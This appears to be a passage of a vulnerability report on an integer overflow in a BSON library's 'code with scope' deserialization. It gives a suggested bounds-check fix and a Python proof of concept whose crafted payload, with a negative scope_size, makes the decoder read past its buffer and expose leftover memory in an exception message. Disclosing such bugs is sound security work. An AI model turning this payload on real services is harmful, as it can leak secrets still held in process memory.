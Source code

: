 The last '00' byte is interpreted as type \x00, the next bytes (located after the managed buffer) will be interpreted as fieldname. Since the type \x00 is invalid the fieldname will be thrown.


## Suggested fix

There is a check for `c_w_s_size` variable only:

```c
if (max < c_w_s_size) {
    goto invalid;
}
```

I would suggest to add the same checks for `code_size` and `scope_size` variables. Then it becomes impossible to trigger integer overflow here.


## How it was found

Usually the deserialization process is non-trivial and difficult to implement without bugs. I read the entire bson code carefully, especially the use of integer variables, and accidentally found this.


## How to reproduce

I've tested it on Ubuntu 22.04.3 LTS, kernel version: 5.15.0-84-generic.

There is a simple PoC:

```python
import bson
import struct

def function(length: int) -> bytes:
    secret = b'X' * length
    # do some stuff with secret
    # ...
    # variable 'secret' is deleted here
    # but it's still stored in memory

def generate_payload(length: int) -> bytes:
    string_size = length - 0x1e

    return bytes.fromhex(
        struct.pack('<I', length).hex() + # payload size
        '0f' + # type "code with scope"
        '3100' + # key (cstring)
        '0a000000' + # c_w_s_size
        '04000000' + # code_size
        '41004200' + # code (cstring)
        'feffffff' + # scope_size
        '02' + # type "string"
        '3200' + # key (cstring)
        struct.pack('<I', string_size).hex() + # string size
        '00' * string_size # value (cstring)
        # next bytes is a field name for type \x00
        # type \x00 is invalid so bson throws an exception
    )

def deserialize_payload(payload: bytes) -> None:
    try:
        obj = bson.decode(payload) # throws exception
        print(obj) # unreachable code
    except Exception as e:
        print(e)
```
